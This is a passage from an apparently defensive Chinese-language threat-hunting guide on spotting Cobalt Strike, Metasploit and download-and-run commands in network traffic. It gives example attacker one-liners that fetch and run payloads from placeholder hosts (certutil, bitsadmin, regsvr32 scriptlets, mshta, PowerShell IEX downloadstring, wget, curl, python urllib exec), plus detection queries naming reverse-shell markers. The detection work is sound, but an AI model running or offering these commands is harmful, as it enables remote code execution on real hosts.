GET 请求用于发送主机的元数据，该请求的 Cookie 为加密的元数据信息。



Cobalt Strike 支持 Web Delivery ，即通过开启 Web 服务以方便恶意文件下载运行。如 果使用的是 powershell 、python 等脚本投递的方式，受害主机会向 Cobalt Strike 的服务端请 求脚本文件内容，那么也可以通过搜索响应的方式去对这种投递方式进行排查。如下图，通 过搜索响应内容包含 New-Objec 的流量主动识别 Cobalt Strike 的 powershell 脚本投递行为 	(由于 ISOP 的响应内容经过了 base64 编码，因此这里搜索响应内容时应该先对响应内容做 base64 编码再搜索) 。



对于 Cobalt Strike 的更多排查方向，可以通过登录主机排查异常进程、文件的方式提取 样本进行分析确认。



Metasploit

工具描述：

Metasploit 是一款非常优秀的渗透测试框架，它是一个强大的开源平台，供开发，测试 和使用恶意代码，这个环境为渗透测试、shellcode 编写和漏洞研究提供了一个强大的平台。 该框架集成了众多使用的攻击程序及辅助工具。

研判分析：

和 Cobalt Strike 的研判类似，对于 Metasploit 的研判，如果出现相应的告警事件需要特 别的留意。



在流量层面分析 Metasploit 也会比较艰难，可以通过登录主机排查异常进程、文件的方 式提取样本进行分析确认。

# 高频命令研判

攻击者在进行远程命令执行/反序列化/MSSQL 注入等漏洞的利用时，通常会执行远程下 载/加载命令，下载 C2 等恶意文件或者脚本到受害主机执行，从而控制主机。在不同的操作 系统中使用不同的命令执行远程下载/加载命令时会产生特定的流量，可通过流量中的User-Agent 识别不同的命令执行流量，再结合下载的文件类型等进行流量检索， 以识别流量 中可能存在的恶意命令执行流量。

&#x20;具体含义参考每个命令部分 ：&#x20;

(user\_agent:*CertUtil* AND r\_body:MZ \*)

(user\_agent:*BITS* AND r\_body:MZ *) (user\_agent:Mozilla*compatibleTriden*NET* AND r\_body:*scriptlet*) (user\_agent:*Mozilla*compatible*Triden*NET\* AND (r\_body:\* Wscript.Shell\* OR  r\_body:*VBScript* OR r\_body:\* CreateObject *)) OR ((user\_agent:Wget* OR user\_agent: curl) AND (r\_body:*ELF* OR r\_body:*socket* OR r\_body:*exec* OR  	(r\_ body:*dev* AND r\_body:*tcp*)) OR (user\_agent:*Java* AND r\_body:*java*) OR (user\_agent:*Python* AND (r\_body:*exec* OR r\_body:*socket*)) OR  (protocol\_type:"http" AND (user\_agent:*WindowsPowerShell* OR user\_agent:"") AND (r\_body:*New-Object* OR r\_body:*Decompress* OR r\_body:*Assembly* OR r\_body:*nishang* OR r\_body:*PowerSploit* OR r\_body:MZ \*))



如果以上检索语句检索出相关流量，需要对流量进行详细分析判断是否确实为恶意流量。

certutil

在 Windows 操作系统中，攻击者常用certutil 命令下载恶意文件到服务器执行，下载的 恶意文件类型大多为 exe 或者dll文件。

certutil 远程下载命令参考：

certutil -urlcache -split -f <http://xxx.xxx.xxx.xxx/xxx.exe> C:\\\Windows\\\Temp\\\xxx.exe

certutil 在进行远程下载时会向远程服务器发起两个请求，可通过请求中的 User-Agent 进行识别。



第一个请求的 User-Agent 为：Microsoft-CryptoAPI/版本号。



第二个请求的 User-Agent 为：CertUtil URL Agent。



结合下载的文件内容头部判断下载的行为是否可能为恶意，如果下载的是 exe 或者 dll 文件类型则可能是恶意的，exe 和 dll 文件的头部十六进制特征均为：4D5A (字符串为 MZ) 。



user\_agent:\*CertUtil\* AND r\_body:MZ\*



如果检索出来存在疑似异常的流量，可以从流量的响应中提取出下载的文件，对文件进行进一步的分析以确认是否为恶意的下载行为。对检索出来的流量的响应体字 段进行两次 base64 解码即可获取下载的文件。  (后面其他下载命令的研判均可按照这样的思路去进行文件的恢复及分析研判，后续不在每个命令部分赘述)





分析文件确认是否异常，如上传 virustotal 平台进行检测。



bitsadmin

在 Windows 操作系统中，攻击者常用 bitsadmin 命令下载恶意文件到服务器执行，下载 的恶意文件类型大多为 exe 或者dll 文件。

bitsadmin 远程下载命令参考：

bitsadmin /transfer n <http://xxx.xxx.xxx.xxx/xxx.exe> C:\\\Windows\\\Temp\\\xxx.exe

bitsadmin 进行远程下载时也会发起两类连接请求。



第一个请求的方法为 HEAD 方法，用于探测资源是否存在。User-Agent 为 Microsoft BITS/版本号。



后续为下载的请求，User-Agent 也是 Microsoft BITS/版本号。同样的，可以结合响应 内容判断下载的文件是否为 exe 或者 dll 文件类型，exe 和 dll 文件的头部十六进制特征均 为：4D5A  (字符串为 MZ) 。



&#x20;搜索可能异常的 bitsadmin 下载流量，检索语句如下：

user\_agent:\*BITS\* AND r\_body:MZ\*



regsvr32

在 Windows 操作系统中，攻击者常用 regsvr32 命令加载 dll。

regsvr32 加载 dll 命令参考：

regsvr32 /s /n /u /i:<http://xxx.xxx.xxx.xxx/SWyNnnBafgin.sct> scrobj.dll

regsvr32 远程下载的 User-Agent 不固定，可参考以下两个样例，提取共同的特征，如 包含 Mozilla 、compatible 、MSIE 、Windows 、Trident 、.NET：

Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.3; WOW64;

Trident/7.0; .NET4.0E; .NET4.0C; .NET CLR 3.5.30729; .NET CLR 2.0.50727; .NET CLR 3.0.30729)

Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64;

Trident/7.0; .NET4.0C; .NET4.0E)



Cobalt Strike 和 Metasploit 使用 regsvr32 远程下载上线 C2 响应内容结构特征均如下：

\<?XML version="1.0"?>

\<scriptlet>

\</registration progid="xxxx

\

\</registration>

\</scriptlet>

Cobalt Strike:



Metasploit:



搜索可能异常的regsvr32 命令流量，检索语句如下：  user\_agent:\*Mozilla\*compatible\*Triden\*NET\* AND r\_body:\*scriptlet\*



mshta

在 Windows 操作系统中，攻击者常用 mshta 命令执行远程恶意 hta 文件。

命令参考：

mshta <http://xxx.xxx.xxx.xxx/xxx.hta>

与 regsvr32 命令相似，在 64 位操作系统中，mshta 命令执行远程恶意 hta 文件时存在 UA-CPU 字段，值为 AMD64 。User-Agent 包含 Mozilla 、compatible 、MSIE 、Windows 、 Trident、.NET 等特征。



在 32 位操作系统中，不会包含 UA-CPU 字段。



响应中的头部包含 Content-Type: application/hta ，响应内容恶意的 hta 文件包含 VBScript 、CreateObject 、Wscript.Shell 等特征。



&#x20;搜索可能异常的regsvr32 命令流量，检索语句如下：

user\_agent:\*Mozilla\*compatible\*Triden\*NET\* AND (r\_body:\*Wscript.Shell\* OR r\_body:\*VBScript\* OR r\_body:\*CreateObject\*)



powershell

powershell 存在多种远程下载方式，不同的下载方式有不同的特征。

powershell 使用 webclient 远程下载不存在 User-Agent 特征，但是可以通过检测响应 内容检测是否为 powershell 脚本。

参考命令：

powershell.exe -nop -w hidden -c "IEX ((new-object

net.webclient).downloadstring('<http://192.168.16.136:80/p>'))"



powershell 通过 Invoke-WebRequest 下载，User-Agent 会出现 PowerShell 的特征。另

外，wget/curl 是 Invoke-WebRequest 的别名，因此通过 wget/curl 实现下载的 User-Agent 与 Invoke-WebRequest 是一样的。通过 Invoke-WebRequest 下载的命令参考：

powershell Invoke-WebRequest -Uri "<http://xxx.xxx.xxx.xxx/download/file.ext>" -OutFile "C:\\\Windows\\\Temp\\\ttt.exe"



&#x20;搜索可能异常的regsvr32 命令流量，检索语句如下：

protocol\_type:"http" AND (user\_agent:\*WindowsPowerShell\* OR user\_agent:"") AND (r\_body:\*New-Object\* OR r\_body:\*Decompress\* OR r\_body:\*Assembly\* OR

r\_body:*nishang* OR r\_body:*PowerSploit* OR r\_body:MZ \*)



wget

在 Linux 操作系统中，攻击者常用 wget 下载远程文件。

命令参考：

wget -O /tmp/xxx <http://xxx.xxx.xxx.xxx/xxx>

wget 下载的 User-Agent 包含 Wget 关键字。在漏洞的利用中，攻击者往往会下载 ELF 文件、反弹 shell 脚本文件到服务器执行获取服务器权限，可结合下载的文件内容进行可 疑流量检索。

ELF 文件头的的十六进制为 7F454C46  (字符串包含ELF) 。



常见的反弹 shell 脚本为bash 、python 或者 perl 较多，可进行特征字提取检测。如包 含 socket 、exec 、/dev/tcp 等特征。在 ISOP 搜索可能异常的 regsvr32 命令流量，检索语句 如下：

user\_agent:*Wget* AND (r\_ body:*ELF* OR r\_body:*socket* OR r\_body:*exec* OR (r\_body:*dev* AND r\_body:*tcp*))



curl

在 Linux 操作系统中，攻击者常用 curl 下载远程文件。

命令参考：

curl <http://xxx.xxx.xxx.xxx/xxx> -o /tmp/xxx

curl 下载远程命令产生的的流量中 User-Agent 包含 curl 关键字。



和 wget 一样，可以结合下载的文件头及文件内容进行检测。在 ISOP 搜索可能异常 的 wget 命令流量，检索语句如下：

user\_agent:*curl* AND (r\_ body:*ELF* OR r\_body:*socket* OR r\_body:*exec* OR (r\_body:*dev* AND r\_body:*tcp*))

java

在java 反序列化漏洞、JNDI 远程注入漏洞攻击中，攻击者可能会利用漏洞加载远程 服务器上的恶意 class 文件，从而执行恶意代码。

以 Log4j 远程代码执行漏洞 (CVE-2021-44228) 为例，如果漏洞攻击成功，服务器 会向攻击者的远程服务器加载恶意 class 文件。因为是 Java应用发起的请求，因此  User-Agent 会包含Java特征。(仅限于一般的漏洞利用情况，如果是特殊情况如使用Tomcat、 Groovy 等的 Bypass payload 去绕过高版本 JDK 对 JNDI 注入的限制时则不会有该请求)

结合响应中的class 文件头cafebabe 检测即可判断请求是否为加载远程class 请求的流量。



也可以结合 class 文件里面的敏感类特征做进一步的检测。如：

命令执行：java/lang/Runtime、java/lang/ProcessBuilder

网络通信：java/net

文件操作：java/io/FileInputStream、java/io/FileOutputStream、java/io/File

&#x20;搜索可能异常的 wget 命令流量，检索语句如下：

user\_agent:\*Java\* AND r\_body:\*java\*



5.9python

python 攻击者会默认使用 urllib 进行请求，因为这个不需要任何外部依赖，Cobalt Strike 的 python 投递就是。

命令参考：

python -c "import urllib2; exec urllib2.urlopen('<http://xxx.xxx.xxx.xxx:80/py').read(>);"

python 投递时 User-Agent 为 Python-urllib/版本号，响应内容特征包含恶意的 python 代 码，如 exec 、socket 等。



搜索可能异常的 python 投递流量，检索语句如下：

user\_agent:*Python* AND (r\_ body:*exec* OR r\_body:*socket*)


